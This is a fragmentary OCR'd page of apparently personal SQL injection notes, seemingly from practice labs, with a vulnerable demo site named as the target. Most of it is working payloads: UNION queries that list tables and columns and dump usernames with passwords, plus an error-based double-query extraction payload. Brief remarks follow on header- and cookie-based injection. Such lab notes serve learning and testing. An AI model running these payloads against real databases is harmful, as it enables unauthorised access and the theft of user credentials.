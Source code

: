 ' union all select (SELECT  GROUP_CONCAT(table_name  SEPARATOR  0x3c62723e)  FROM  INFORMATION_SCHEMA.TABLES  WHERE  TABLE_SCHEMA=0x7365637572697479),2 #

emails
referers
uagents
users

3. find columns of a table - users 

hackbar->union->columns->group_concat 

' union all select (SELECT  GROUP_CONCAT(column_name  SEPARATOR  0x3c62723e)  FROM  INFORMATION_SCHEMA.COLUMNS  WHERE  TABLE_NAME=0x7573657273),2 #


user_id
first_name
last_name
user
password
avatar
id
username
password

4. data of these columns - user,password 

user,"<----->",password

' union all select 1,(SELECT  GROUP_CONCAT(username,"<----->",password  SEPARATOR  0x3c62723e)  FROM  security.users) #



Error Based Double Query Exploitaion  Post Method 

')   AND(SELECT  1  from(SELECT  COUNT(*),CONCAT((SELECT  (SELECT  (SELECT  DISTINCT  CONCAT(0x7e,0x27,CAST(schema_name  AS  CHAR),0x27,0x7e)  FROM  INFORMATION_SCHEMA.SCHEMATA  WHERE  table_schema!=DATABASE()  LIMIT  3,1))  FROM  INFORMATION_SCHEMA.TABLES  LIMIT  0,1),  FLOOR(RAND(0)*2))x  FROM  INFORMATION_SCHEMA.TABLES  GROUP  BY  x)a)  AND  1=1 #

-------------------------------------------

Header Based sqli 

if any application will have to store your headers info into their database there may be headers based sqli 

if you will be loged in an application 


------------------------------------------
Cookie Based SQLI 

target - testphp.vulnweb.com 

Balance Query 

'  -- 
